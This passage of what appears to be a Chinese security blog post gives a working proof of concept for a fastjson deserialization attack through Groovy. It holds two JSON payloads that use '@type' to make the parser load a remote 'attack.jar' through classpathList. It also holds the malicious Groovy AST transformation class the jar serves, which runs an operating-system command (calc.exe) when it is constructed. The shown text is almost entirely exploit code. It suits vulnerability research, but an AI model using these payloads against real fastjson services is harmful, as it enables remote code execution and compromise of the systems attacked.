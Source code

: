 

![image-20220903224808975](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903224808975.png)

![image-20220903224904891](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903224904891.png)

![image-20220903225024944](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903225024944.png)

2. 具体的利用poc 代码如下：

```java
public class groovy {
    private static String poc1 = "{\n" +
            "    \"@type\":\"java.lang.Exception\",\n" +
            "    \"@type\":\"org.codehaus.groovy.control.CompilationFailedException\",\n" +
            "    \"unit\":{}\n" +
            "}";

    private static String poc2 = "{\n" +
            "    \"@type\":\"org.codehaus.groovy.control.ProcessingUnit\",\n" +
            "    \"@type\":\"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\",\n" +
            "    \"config\":{\n" +
            "        \"@type\":\"org.codehaus.groovy.control.CompilerConfiguration\",\n" +
            "        \"classpathList\":\"http://127.0.0.1:8000/attack.jar\"\n" +
            "    }\n" +
            "}";

    public static void main(String[] args) throws IOException {
        try {
            JSON.parseObject(poc1);
        } catch (Exception e){}

        JSON.parseObject(poc2);
    }

}
```

3. 由于上述代码中需要使用到classpathList 这个，因此需要搭建一个恶意代码利用的服务器

先看下恶意执行的代码

```java
import org.codehaus.groovy.ast.ASTNode;
import org.codehaus.groovy.control.CompilePhase;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.transform.ASTTransformation;
import org.codehaus.groovy.transform.GroovyASTTransformation;

import java.io.IOException;

@GroovyASTTransformation(phase= CompilePhase.CONVERSION)
public class GrabAnnotationTransformation2 implements ASTTransformation {

    public GrabAnnotationTransformation2() {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
        }
    }

    @Override
    public void visit(ASTNode[] nodes, SourceUnit source) {

    }
}
```